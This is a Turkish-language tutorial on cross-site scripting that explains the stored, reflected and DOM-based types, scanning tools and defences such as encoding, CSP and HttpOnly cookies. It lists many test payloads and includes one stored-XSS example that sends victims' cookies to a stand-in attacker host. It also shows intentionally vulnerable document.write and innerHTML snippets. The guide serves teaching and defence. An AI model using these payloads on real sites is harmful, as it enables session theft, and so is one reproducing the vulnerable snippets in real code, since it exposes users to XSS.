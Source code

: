 :
### XSS (Cross-Site Scripting) Nedir?
XSS (Cross-Site Scripting), saldırganların bir web sitesine zararlı JavaScript kodu enjekte etmesine olanak tanıyan bir güvenlik açığıdır. Bu kod, siteyi ziyaret eden diğer kullanıcıların tarayıcılarında çalıştırılır ve oturum çalma, kimlik bilgisi hırsızlığı, keylogger yerleştirme veya kötü amaçlı yönlendirmeler gibi saldırılara sebep olabilir.

## 1️⃣ XSS Türleri
### 1️⃣ Stored XSS (Depolanmış XSS)
### Açıklama: Zararlı JavaScript kodunun kalıcı olarak web sitesine kaydedildiği saldırı türüdür. Kullanıcı siteyi ziyaret ettiğinde kod otomatik olarak çalıştırılır.
### Örnek:
Yorum, mesaj, forum postları gibi kullanıcı tarafından girilen verilerin kaydedilmesi
Profil isimleri, blog içerikleri veya ürün açıklamalarına zararlı kod eklenmesi
Payload Örneği:
Bir yorum alanına aşağıdaki gibi bir XSS payload eklenirse, sayfayı ziyaret eden herkesin tarayıcısında bu kod çalışacaktır:
```html
<script>alert('XSS')</script>
```


- 🔹 Korunma Yöntemleri:

- ✅ Kullanıcı girişlerini HTML encode ile filtrele

- ✅ CSP (Content Security Policy) kullanarak zararlı komutları engelle

### 2️⃣ Reflected XSS (Yansıtılmış XSS)

### Açıklama: Kullanıcının tarayıcısına anında geri dönen XSS türüdür. Saldırgan genellikle zararlı bir link oluşturarak kurbanı bu linke tıklaması için kandırır.

### Örnek:

Arama kutusu, hata mesajları veya URL parametrelerinde işlenen zararlı kodlar

Payload Örneği:

```html
https://target.com/search?q=<script>alert('XSS')</script>
Bu linke tıklayan kişinin tarayıcısında alert() penceresi açılacaktır.
```
🔹 Korunma Yöntemleri:

✅ Girdi doğrulaması ve filtreleme yap

✅ XSS korumalı framework’ler (React, Angular gibi) kullan


### 3️⃣ DOM-Based XSS
### Açıklama: Zararlı JavaScript kodunun tarayıcı tarafından çalıştırıldığı XSS türüdür. Burada saldırı, web sunucusu yerine tarayıcı tarafında (DOM manipülasyonu ile) gerçekleştirilir.
### Örnek:
Bir URL parametresi innerHTML veya document.write() gibi unsurlara aktarılırsa XSS oluşabilir:
```js
var userInput = location.hash.substring(1);
document.write(userInput);
```
Eğer saldırgan şu URL’yi kurbanla paylaşırsa:
```html
https://target.com/#<script>alert('XSS')</script>
```
Kurban bu linke girdiğinde XSS çalışacaktır.

🔹 Korunma Yöntemleri:

✅ innerHTML, document.write(), eval() gibi güvenliksiz fonksiyonları kullanma

✅ Kullanıcı girdilerini sanitize et ve encode uygula


## 2️⃣ XSS Açığını Tespit Etme
### Manuel Testler:
<script>alert('XSS')</script> gibi payload’ları dene
Burp Suite Repeater kullanarak dinamik alanları test et
DOM manipülasyonu yapan alanları analiz et
### Otomatik Araçlar:
Burp Suite Scanner
XSStrike
DalFox
Nuclei XSS Tarama

```bash
nuclei -t vulnerabilities/xss -u https://target.com
```

## 3️⃣ XSS’ten Korunma Yöntemleri

- ✅ Girdi Doğrulaması: Kullanıcının girdiği verileri kontrol et

- ✅ Çıkışta Filtreleme: HTML encode uygula (<script> yerine &lt;script&gt;)

- ✅ CSP (Content Security Policy) Kullan: Sadece güvenli kaynaklardan script çalıştır

- ✅ HttpOnly ve Secure Cookie Kullan: Oturum çalınmasını engelle

### Sonuç
XSS, web uygulamalarında en yaygın güvenlik açıklarından biri olup saldırganların oturum çalmasına, sayfa içeriğini değiştirmesine veya kullanıcıları zararlı sitelere yönlendirmesine neden olabilir. Bu yüzden girdi doğrulaması, filtreleme ve güvenli kodlama prensipleri ile korunma sağlanmalıdır. 🚀

_______________________________________________________________________________________

### URL ile XSS (Reflected ve DOM-Based XSS) Nedir?

URL ile XSS saldırıları genellikle Reflected XSS ve DOM-Based XSS şeklinde gerçekleşir. Saldırgan, mağdurun tarayıcısında çalışacak kötü niyetli bir JavaScript kodunu URL’ye enjekte eder. Mağdur bu URL’yi açtığında zararlı kod çalışır.

## 1️⃣ Reflected XSS ile URL Üzerinden Saldırı

Reflected XSS, web sunucusunun, URL’den gelen girdiyi filtrelemeden sayfaya yerleştirmesi sonucu oluşur. Kullanıcı URL’deki kötü amaçlı JavaScript içeren bağlantıya tıkladığında tarayıcısında kod çalışır.

### Örnek Zafiyetli URL:

Bir arama kutusu içeren site düşünelim:

```html
https://target.com/search?q=deneme
```
Sunucu, bu değeri sayfa içine yansıtır:
```html
<p>Arama Sonucu: deneme</p>
```
Eğer giriş doğrulaması yapılmazsa, URL’ye bir JavaScript kodu enjekte edilebilir:

```html
https://target.com/search?q=<script>alert('XSS')</script>
```
Bu durumda, site bu girdiyi doğrudan sayfaya eklediğinde saldırı gerçekleşir:

```html
<p>Arama Sonucu: <script>alert('XSS')</script></p>
```
Sonuç: Kurban bu linke tıklarsa tarayıcısında alert('XSS') açılır.

✅ Test Etmek İçin Kullanılabilecek Payload’lar:
```html
https://target.com/search?q=<script>alert(1)</script>
https://target.com/search?q="><script>alert(1)</script>
https://target.com/search?q=<svg/onload=alert(1)>
https://target.com/search?q=<img src=x onerror=alert(1)>
https://target.com/search?q=<body onload=alert(1)>
```


🛠️ 2️⃣ DOM-Based XSS ile URL Üzerinden Saldırı

DOM-Based XSS, JavaScript’in document.write(), innerHTML, location.href, eval() gibi güvenliksiz fonksiyonları kullanması nedeniyle oluşur. Bu durumda saldırı, sunucu tarafında değil, tarayıcı tarafında gerçekleşir.

### Örnek Güvenlik Açığı:
Aşağıdaki kod, URL’de bulunan msg parametresini alıp sayfaya eklemektedir:
```html
<script>
var message = new URLSearchParams(window.location.search).get("msg");
document.write(message);
</script>
```
Eğer bir saldırgan şu URL’yi kullanırsa:

```html
https://target.com/index.html?msg=<script>alert('XSS')</script>
```
Sayfayı ziyaret eden kullanıcının tarayıcısında XSS çalışacaktır.

✅ DOM-Based XSS Test İçin URL Payload’ları:

```html
https://target.com/index.html#<script>alert('XSS')</script>
https://target.com/index.html?msg=<img src=x onerror=alert(1)>
https://target.com/index.html?data=<svg/onload=alert(1)>
https://target.com/index.html?msg=<body onload=alert(1)>
```


🔎 3️⃣ URL ile XSS Açığını Test Etme

- ✅ Burp Suite Repeater ile URL’deki parametreleri test et

- ✅ Manuel Payload Denemeleri yaparak sayfanın çıktısını incele

- ✅ DalFox & XSStrike gibi araçlarla otomatik tarama yap

```bash
dalfox url "https://target.com/search?q=test"
xsstrike -u "https://target.com/search?q=test"
```

✅ Developer Console’da (F12) JavaScript analizi yap

```js
document.write(location.search);
```


## 4️⃣ XSS Açıklarından Korunma Yöntemleri

- 🚫 Kullanıcı girişlerini doğrudan sayfaya yazdırma!

- ✅ Girdi doğrulaması yap ve özel karakterleri filtrele (<, >, ", ', / gibi karakterleri engelle)

- ✅ HTML encode kullan:
```js
function escapeHTML(str) {
    return str.replace(/[&<>"']/g, function (match) {
        return {
            '&': '&amp;',
            '<': '&lt;',
            '>': '&gt;',
            '"': '&quot;',
            "'": '&#39;'
        }[match];
    });
}
```
✅ CSP (Content Security Policy) kullanarak yalnızca güvenilir kaynaklardan script çalıştır
✅ HttpOnly ve Secure flag içeren çerezler kullanarak oturum çalınmasını önle

### Sonuç

URL ile XSS saldırıları, kullanıcıları kandırarak zararlı kod çalıştırmak için yaygın olarak kullanılan bir yöntemdir. Reflected XSS ve DOM-Based XSS açıklarını önlemek için güvenli kodlama prensipleri uygulanmalı ve uygun koruma yöntemleri alınmalıdır. 🚀
_____________________________________________________________________________________

### Kayıtlı XSS (Stored XSS) Nedir?

Kayıtlı XSS (Stored XSS), saldırganın zararlı JavaScript kodunu bir web sitesinin veritabanına veya kalıcı bir depolama alanına kaydetmesiyle oluşan bir güvenlik açığıdır. Bu tür saldırılar, yorum bölümleri, mesaj panoları, kullanıcı profilleri veya forumlar gibi veri girişlerinin kaydedildiği yerlerde yaygındır.

- ✅ Stored XSS ile saldırı başarılı olursa:

Zararlı kod herkese çalıştırılır.

Kullanıcı tarayıcılarında session çalma, keylogger, phishing saldırıları yapılabilir.

Etkilenen herkes saldırıdan habersiz kalır.

## 1️⃣ Kayıtlı XSS Örneği

Bir web sitesinde yorum ekleyebildiğimiz bir alan olduğunu düşünelim. Kullanıcı, aşağıdaki gibi bir yorum yazarsa:
```html
<script>alert('XSS')</script>
Ve web sitesi bu girdiyi filtrelemeden veritabanına kaydeder ve sayfaya eklerse, tüm ziyaretçiler için JavaScript kodu otomatik olarak çalışır.
```
📌 Örnek Kötü Amaçlı Girdi
```html
<script>document.location='http://attackersite.com/steal?cookie='+document.cookie</script>
Bu kod, kurbanın çerezlerini saldırgana gönderir.
```

🛠️ 2️⃣ Kayıtlı XSS Açığını Test Etme

- ✅ Kendi yorumlarını kontrol et:

Form alanlarına <script>alert("XSS")</script> gibi payload’lar gir.

Yorum ekle ve sayfa yenilendiğinde çalışıp çalışmadığını kontrol et.

- ✅ Gizli JavaScript çalıştır:
Bazı sitelerde alert() kapalı olabilir, ancak aşağıdaki kodlar çalışabilir:

```html
<script>console.log("XSS Test")</script>
<img src=x onerror=alert('XSS')>
<svg/onload=alert('XSS')>
```
Eğer yukarıdaki kodlar çalışıyorsa Stored XSS açığı var demektir.

✅ Burp Suite Proxy ile HTTP requestleri analiz et:

Form verilerini Intercept (yakala) yaparak sunucuya gönderilen POST/GET isteklerini incele.

XSS payload’larını farklı alanlara enjekte ederek sitenin nasıl tepki verdiğini kontrol et.

✅ Automated XSS Scan (Otomatik Tarama) için Araçlar Kullan:
DalFox:

```bash
dalfox url "https://target.com/comment"
XSStrike:
```
```bash
xsstrike -u "https://target.com/comment"
```

## 3️⃣ Kayıtlı XSS Açıklarından Korunma Yöntemleri

- ✅ Girdi Doğrulama ve Filtreleme:

HTML encode yap: Kullanıcının girdiği <script> gibi etiketleri &lt;script&gt; olarak dönüştür.

Girdi uzunluğu sınırlı olsun: <script> gibi zararlı kod eklemek için uzun metinler gereklidir.

Yalnızca izin verilen karakterleri kullan: Örneğin, yorum alanına sadece harf, sayı ve belirli noktalama işaretlerini eklemeye izin ver.

- ✅ Çıktı Temizleme (Output Encoding):

Kullanıcının girdiği verileri innerHTML, document.write gibi fonksiyonlarla doğrudan eklemeyin!

Bunun yerine textContent veya innerText kullanın:
```js
document.getElementById("comment").textContent = userInput;

```
✅ CSP (Content Security Policy) Kullan:

Yalnızca belirli kaynaklardan JavaScript çalıştırılmasını sağlamak için CSP ekleyin.

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' https://trusted-source.com;">

```
✅ HttpOnly ve Secure Çerez Kullanımı:

Çerezleri HttpOnly olarak ayarlayarak JavaScript ile okunmasını engelleyin:

```bash
Set-Cookie: session=xyz; HttpOnly; Secure
```

### Sonuç
Kayıtlı XSS, kalıcı ve tehlikeli bir açık olup, saldırganın zararlı kodu bir defa enjekte ettikten sonra her kullanıcıyı etkileyebildiği bir saldırıdır. Güvenli kodlama, çıktı temizleme ve CSP kullanımı ile bu tür saldırılar önlenebilir. 🚀
______________________________________________________________________________________
## XSS'ten Korunma Yöntemleri
XSS (Cross-Site Scripting) saldırılarından korunmak için girdi doğrulama, çıktı temizleme ve güvenlik önlemleri almak gereklidir. İşte XSS'ten korunmak için almanız gereken önlemler:

### 1️⃣ Kullanıcı Girdilerini Doğrulayın ve Filtreleyin

Kullanıcıdan gelen her veriyi güvenli kabul etmeyin!

Yalnızca izin verilen karakterleri kabul edin. (Beyaz liste yöntemi)

HTML etiketlerini temizleyin veya encode edin.


Örnek (Python – Flask)
```python
from markupsafe import escape  
@app.route("/comment", methods=["POST"])
def comment():
    user_input = escape(request.form["comment"])  # HTML encode
    return f"Yorum kaydedildi: {user_input}"
✅ escape() fonksiyonu zararlı HTML etiketlerini &lt;script&gt; gibi encode eder.
Örnek (PHP)
```
```php
$user_input = htmlspecialchars($_POST["comment"], ENT_QUOTES, 'UTF-8');
✅ htmlspecialchars() zararlı karakterleri HTML olarak encode eder.
```

### 2️⃣ Çıktı Temizleme (Output Encoding)
Kullanıcı girdisini doğrudan sayfaya eklemeyin!
innerHTML, document.write() gibi fonksiyonlar yerine textContent veya innerText kullanın.
Örnek (JavaScript)
```js
document.getElementById("comment").textContent = userInput;
✅ textContent doğrudan HTML yerine sadece metin olarak ekler.
```

### 3️⃣ Güçlü Content Security Policy (CSP) Kullanın
CSP, tarayıcının belirli kaynaklardan gelen scriptleri engellemesini sağlar.
Örnek (Meta Tag ile CSP)
```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' https://trusted-cdn.com;">
✅ Yalnızca belirli kaynaklardan JavaScript çalıştırılmasını sağlar.
Örnek (HTTP Header ile CSP)
```
```bash
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-scripts.com
```

4️⃣ HttpOnly ve Secure Çerezleri Kullanın
XSS saldırıları genellikle çerez çalmak için yapılır. HttpOnly çerezler JavaScript ile erişilemez.
Örnek (Set-Cookie Header)
```bash
Set-Cookie: session=xyz; HttpOnly; Secure
```

- ✅ HttpOnly çerezleri JavaScript ile okunamaz.

- ✅ Secure sadece HTTPS üzerinden gönderir.

5️⃣ Güvenli JavaScript Kullanımı
eval(), document.write(), setInnerHTML() gibi fonksiyonlardan kaçının!
Eğer JSON verisi işleniyorsa, JSON.parse() kullanın, eval() kullanmayın!

Yanlış Kullanım (XSS Açığı Var)
```js
var userInput = "<script>alert('XSS')</script>";
document.body.innerHTML = userInput;  // XSS saldırısına açık
```
Doğru Kullanım
```js
document.body.textContent = userInput;  // Güvenli
```


6️⃣ Web Uygulama Güvenlik Duvarı (WAF) Kullanın
Cloudflare, AWS WAF, ModSecurity gibi güvenlik duvarları zararlı XSS payload'larını engelleyebilir.

### Sonuç
XSS saldırılarından korunmak için girdi doğrulama, çıktı temizleme, CSP, güvenli çerezler ve güvenli kodlama yöntemlerini uygulamak gerekir. 🚀



